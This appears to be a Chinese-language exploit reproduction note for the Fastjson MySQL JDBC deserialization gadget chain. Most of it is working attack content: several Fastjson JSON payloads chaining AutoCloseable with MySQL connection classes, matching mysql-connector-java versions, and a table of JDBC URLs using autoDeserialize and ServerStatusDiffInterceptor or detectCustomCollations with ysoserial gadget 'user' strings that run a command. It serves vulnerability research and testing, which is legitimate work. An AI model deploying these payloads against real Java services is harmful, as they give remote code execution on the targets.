 ## Fastjson MySQL gadget复现



### 漏洞复现



payload：**{ \"name\": { \"@type\": \"java.lang.AutoCloseable\", \"@type\": \"com.mysql.jdbc.JDBC4Connection\", \"hostToConnectTo\": \"127.0.0.1\", \"portToConnectTo\": 3306, \"info\": { \"user\": \"yso_CommonsBeanutils1_calc\", \"password\": \"pass\", \"statementInterceptors\": \"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor\", \"autoDeserialize\": \"true\", \"NUM_HOSTS\": \"1\" }, \"databaseToConnectTo\": \"dbname\", \"url\": \"\" } }**

其中{ \"user\": \"yso_CommonsBeanutils1_calc\"是`yso\_是固定（反序列化）CommonsBeanutils1\_（gadget）calc是命令`

```
        String json2="{ \"name\": { \"@type\": \"java.lang.AutoCloseable\", \"@type\": \"com.mysql.jdbc.JDBC4Connection\", \"hostToConnectTo\": \"127.0.0.1\", \"portToConnectTo\": 3306, \"info\": { \"user\": \"yso_CommonsBeanutils1_calc\", \"password\": \"pass\", \"statementInterceptors\": \"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor\", \"autoDeserialize\": \"true\", \"NUM_HOSTS\": \"1\" }, \"databaseToConnectTo\": \"dbname\", \"url\": \"\" } }";
        
        <dependency>
            <groupId>mysql</groupId>
            <artifactId>mysql-connector-java</artifactId>
            <version>5.1.12</version>
        </dependency>

        
        String json2="{ \"name\": { \"@type\":\"java.lang.AutoCloseable\", \"@type\":\"com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection\", \"proxy\": { \"connectionString\":{ \"url\":\"jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&useSSL=false&user=yso_CommonsBeanutils1_calc\" } } }}";


        <dependency>
            <groupId>mysql</groupId>
            <artifactId>mysql-connector-java</artifactId>
            <version>6.0.2</version>
        </dependency>



```



![image-20211220170706354](https://raw.githubusercontent.com/SummerSec/Images/main/summersec//6u07er6ec/6u07er6ec.png)





![image-20211220154409962](https://raw.githubusercontent.com/SummerSec/Images/main/summersec//42u44er42ec/42u44er42ec.png)



----

```json
{
       "@type":"java.lang.AutoCloseable",
       "@type":"com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
       "proxy": {
              "@type":"com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
              "connectionUrl":{
                     "@type":"com.mysql.cj.conf.url.ReplicationConnectionUrl",
                     "masters":[{
                            "host":""
                     }],
                     "slaves":[],
                     "properties":{
                            "host":"127.0.0.1",
                            "user":"yso_CommonsCollections4_calc",
                            "dbname":"dbname",
                            "password":"pass",
                            "queryInterceptors":"com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
                            "autoDeserialize":"true"
                     }
              }
       }
}
```



---

以下是MySQL反序列化漏洞影响的版本，fastjson只能打5.1.11-5.1.48(反序列化链)、6.0.2/6.0.3(反序列化)、8.0.19(反序列化链)（实测）。

### 影响版本

#### ServerStatusDiffInterceptor触发

* **<8.0.20:** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`
* **6.x(属性名不同):** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`
* **5.1.11及以上的5.x版本（包名没有了cj）:**` jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`
* **5.1.10及以下的5.1.X版本：** 同上，但是需要连接后执行查询。
* **5.0.x:** 还没有`ServerStatusDiffInterceptor`这个东西┓( ´∀` )┏

#### detectCustomCollations触发：

* **5.1.41及以上:** 不可用
* **5.1.29-5.1.40:** `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc`
* **5.1.28-5.1.19：** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc`
* **5.1.18以下的5.1.x版本：** 不可用
* **5.0.x版本不可用**



![image-20211220173824621](https://cdn.jsdelivr.net/gh/SummerSec/Images//52u3652ec52u3652ec.png)



----

### 参考

https://www.cnblogs.com/pickmea/p/15157189.html

https://github.com/fnmsd/MySQL_Fake_Server

https://mp.weixin.qq.com/s/BRBcRtsg2PDGeSCbHKc0fg